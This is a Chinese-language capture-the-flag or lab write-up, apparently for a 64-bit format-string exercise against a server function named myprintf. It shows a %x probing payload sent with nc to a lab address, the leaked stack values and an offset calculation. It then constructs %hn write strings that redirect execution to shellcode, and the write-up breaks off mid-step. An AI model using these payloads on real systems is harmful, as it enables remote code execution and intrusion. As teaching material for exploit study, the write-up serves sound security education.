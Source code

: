 - **The input buffer's address: 0x00007fffffffe540**

- **Frame Pointer (inside myprintf): 0x00007fffffffe480**

输入：

```
echo AAAA-%x-%x-%x-%x-%x-%x-%x-%x-%x-%x-%x-%x-%x-%x-%x-%x-%x-%x-%x-%x-%x-%x-%x-%x-%x-%x-%x-%x-%x-%x-%x-%x-%x-%x-%x-%x-%x-%x-%x-%x-%x-%x-%x-%x-%x-%x- | nc 10.9.0.6 9090
```

回显：

```
AAAA-555592a0-0-0-0-39-90-ffffe540-0-ffffe480-ffffe510-55555383-5dc-ffffe540-0-0-0-0-0-0-0-0-0-0-0-0-0-19c09500-ffffeb30-5555531b-ffffec28-0-0-0-41414141
```

保存到tmp中，grep一下，发现偏移为34

```
~$ grep -o '-' tmp | wc - l
     34      34      68 -
```

printf遇到0会终止输出，由于64位的地址都会有0，所以地址应该放在字符串的后面

找到shellcode的地址，并格式化输出：

```
shellcode_addr=start+buf
print('%#x'%shellcode_addr) 
```

**shellcode_addr：0x7fffffffea77**

使用%hn每次更改两字节，我们需要以下三个地址

 ```
# print('%#x'%shellcode_addr) 0x 0000 7fff ffff ea77
s_0_16=0xea77
s_16_32=0xffff
s_32_48=0x7fff
 ```

根据大小顺序构造格式化字符串：

```
# order : s_32_48  s_0_16  s_16_32

fmt='%.'+str(s_32_48)+'x%11$hn'
fmt+='%.' + str(s_0_16-s_32_48) + 'x%12$hn'
fmt+='%.' + str(s_16_32-s_0_16) + 'x%13$hn'
```

得到fmt字符串的大小为41

```
print(len(fmt)) 41
```

目标地址
